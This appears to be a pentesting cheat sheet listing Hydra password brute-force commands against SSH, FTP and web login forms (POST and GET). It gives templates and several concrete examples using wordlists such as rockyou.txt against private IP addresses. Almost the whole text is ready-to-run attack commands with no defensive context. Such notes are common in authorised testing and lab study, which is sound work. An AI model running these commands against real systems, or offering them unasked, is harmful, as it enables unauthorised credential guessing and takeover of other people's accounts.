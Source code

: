 ## Hydra

### SSH
```
hydra -l <username> -P <wordlist> <ip_addr> -t 4 ssh
```

### FTP
```
hydra -L logins.txt -P passwords.txt ftp://192.168.100.1
hydra -l user -P passwords.txt 192.168.100.1 ftp
```

### HTTP POST Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-post-form "<path>:<login_credentials>:<invalid_response>" -v
-v #verbose
```
Example
```
hydra -L usernames.txt -P rockyou.txt 10.10.11.22 http-post-form \
"/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!" -v
```

### HTTP GET Form
```
hydra -l <username> -P <wordlist> <ip_addr> http-get-form "<path>:<login_credentials>:<invalid_response>" -v
```
Example
```
hydra -l admin -P /path/to/wordlist.txt 192.168.1.100 http-get-form "/login.php:user=^USER^&password=^PASS^:Invalid credentials" -v
```

